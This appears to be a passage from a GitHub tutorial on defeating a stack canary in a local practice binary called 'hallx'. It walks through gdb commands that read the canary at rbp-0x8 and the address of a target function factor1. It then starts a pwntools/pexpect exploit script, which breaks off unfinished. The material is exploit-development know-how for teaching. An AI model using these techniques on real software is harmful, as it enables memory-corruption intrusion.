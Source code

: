 ```bash
   0x0000555555557748 <+323>:	mov    -0x8(%rbp),%rax
   0x000055555555774c <+327>:	sub    %fs:0x28,%rax
   0x0000555555557755 <+336>:	je     0x55555555775c <factor2+343>
   0x0000555555557757 <+338>:	call   0x555555556180 <__stack_chk_fail@plt>
   0x000055555555775c <+343>:	leave
   0x000055555555775d <+344>:	ret
End of assembler dump
```

The first thing is to locate the canary in memory and for this we first place a breakpoint in main() and run the program with the objective of randomizing the memory addresses, when it stops in main() we disassemble the factor2 function to locate the canary.

```bash
 0x0000555555557616 <+17>:	mov    %rax,-0x8(%rbp)
```

We locate the canary located at rbp-0x8, Now we need to locate ourselves after the memory address 0x0000555555557616, so we set a breakpoint on a following instruction, for example at: 0x0000555555557626.

```bash
break *0x0000555555557626
```
```bash
continue
```
```bash
x/1gx $rbp-0x8
```

![image](https://github.com/user-attachments/assets/466446cb-4dcb-483c-a02b-cf1b5c0c5eae)

Here we have extracted the canary, The other thing we need is to extract the address of the malicious function factor1()

```bash
p factor1
```

![image](https://github.com/user-attachments/assets/18b6615a-4596-4846-acab-1ec06c228ac6)

Now, using an exploit, we will automate the extraction of this data at runtime.

```python
import pexpect
import re
import struct
from pwn import *

def atack():

    binary = ELF("/home/darks/Desktop/program/hallx")
    binary_path = "/home/darks/Desktop/program/hallx"
    gdb_process = pexpect.spawn(f"sudo gdb {binary_path}", timeout=10, maxread=10000, searchwindowsize=100)
    gdb_process.expect("(gdb)")
    gdb_process.sendline("set disassembly-flavor intel")
    gdb_process.expect("(gdb)")
    gdb_process.sendline("set pagination off")
    gdb_process.expect("(gdb)")
    gdb_process.sendline("set style enabled off")
    gdb_process.expect("(gdb)")
    gdb_process.sendline("break main")
    gdb_process.expect("(gdb)")
    #gdb_process.sendline("break factor1")
    #gdb_process.expect("(gdb)")
    gdb_process.sendline("run")
```